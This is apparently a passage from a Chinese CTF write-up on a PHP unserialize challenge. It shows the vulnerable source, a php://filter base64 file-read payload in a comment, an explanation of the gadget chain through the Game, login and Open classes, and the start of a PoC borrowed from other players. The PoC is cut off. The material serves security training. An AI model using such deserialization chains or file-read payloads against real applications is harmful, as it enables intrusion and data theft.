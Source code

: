 ```php
    }
}
class Open{
    function open($filename, $content){
        if(!file_get_contents('waf.txt')){    // 当waf.txt没读取成功时才能得到flag
            shell($content);
        }else{
            echo file_get_contents($filename.".php");    // filename=php://filter/read=convert.base64-encode/resource=shell
        }
    }
}
if($_GET['a']!==$_GET['b']&&(md5($_GET['a']) === md5($_GET['b'])) && (sha1($_GET['a'])=== sha1($_GET['b']))){
    @unserialize(base64_decode($_POST['unser']));
}
```

这串代码就是一个简单的反序列化POC

首先我们需要利用`file_get_contents`来得到文件内容

我们先让`register`的值为admin，进入`$this->choice=new login($this->file,$this->filename,$this->content)`，进入login类后，我们需要让`username`=admin,`password`=admin，进入`$this->choice=new login($this->file,$this->filename,$this->content)`，一如既往的，我们让`file`的值为`open`，那么我们就可以调用open类的open方法，达到我们的目的。

构造poc(其他师傅的)

因为前面包含`shell.php`，首先读取shell.php的内容

```php
<?php
class Game{
    public  $username;
    public  $password;
    public  $choice;
    public  $register;

    public  $file;
    public  $filename;
    public  $content;
    
    public function __construct()
    {
        $this->username='user';
        $this->password='user';
    }

    public function __wakeup(){
        if(md5($this->register)==="21232f297a57a5a743894a0e4a801fc3"){    // admin
            $this->choice=new login($this->file,$this->filename,$this->content);
        }else{
            $this->choice = new register();
        }
    }
    public function __destruct() {
        $this->choice->checking($this->username,$this->password);
    }

}

class login{
    public $file;
    public $filename;   
    public $content;
}
```